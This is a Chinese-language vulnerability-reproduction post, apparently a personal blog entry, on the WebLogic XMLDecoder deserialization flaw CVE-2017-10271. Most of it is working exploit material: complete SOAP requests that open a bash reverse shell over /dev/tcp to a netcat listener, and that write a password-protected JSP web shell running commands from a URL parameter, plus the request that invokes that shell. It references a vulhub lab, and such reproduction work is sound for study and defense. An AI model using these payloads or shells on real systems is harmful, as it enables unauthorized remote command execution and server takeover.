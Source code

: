 ```yaml
---
title: Weblogic < 1.3.6 反序列化(CVE-2017-10271)
date: 2020-07-02 20:49:57
categories: 漏洞复现
tags: Weblogic
---
```


#### 背景

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

<!--more-->

#### 复现过程

##### 反弹shell

1. nc 监听

   ```bash
   nc -lvp 444
   ```

2. POC

   使用bp发送如下payload

   ```http
   POST /wls-wsat/CoordinatorPortType HTTP/1.1
   Host: your-ip:7001
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: text/xml
   Content-Length: 633
   
   <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
   <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java version="1.4.0" class="java.beans.XMLDecoder">
   <void class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="3">
   <void index="0">
   <string>/bin/bash</string>
   </void>
   <void index="1">
   <string>-c</string>
   </void>
   <void index="2">
   <string>bash -i &gt;&amp; /dev/tcp/*.*.*.*/4444 0&gt;&amp;1</string>
   </void>
   </array>
   <void method="start"/></void>
   </java>
   </work:WorkContext>
   </soapenv:Header>
   <soapenv:Body/>
   </soapenv:Envelope>
   ```

   注意将反弹shell的地址修改为nc监听地址

   ![](http://qn.laohuan.xin/2020-07-02_14-08-54.png)

##### 写shell

1. 使用bp发送如下paylaod

   ```http
   POST /wls-wsat/CoordinatorPortType HTTP/1.1
   Host: IP:7001
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: text/xml
   Content-Length: 905
   
   <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
       <soapenv:Header>
       <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
       <java><java version="1.4.0" class="java.beans.XMLDecoder">
       <object class="java.io.PrintWriter"> 
       <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
       <void method="println"><string>
       <![CDATA[
   <%if("test".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
   int a = -1;
   byte[] b = new byte[2048];
   out.print("<pre>");
   while((a=in.read(b))!=-1){
   out.println(new String(b));
   }
   out.print("</pre>");}%>
       ]]>
       </string>
       </void>
       <void method="close"/>
       </object></java></java>
       </work:WorkContext>
       </soapenv:Header>
       <soapenv:Body/>
   </soapenv:Envelope>
   ```

   ![](http://qn.laohuan.xin/2020-07-02_15-27-25.png)

2. 连接shell

   ```url
   http://IP:7001/bea_wls_internal/test.jsp?pwd=test&i=ifconfig
   ```

   ![](http://qn.laohuan.xin/2020-07-02_15-27-44.png)

#### 参考链接

<http://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271/>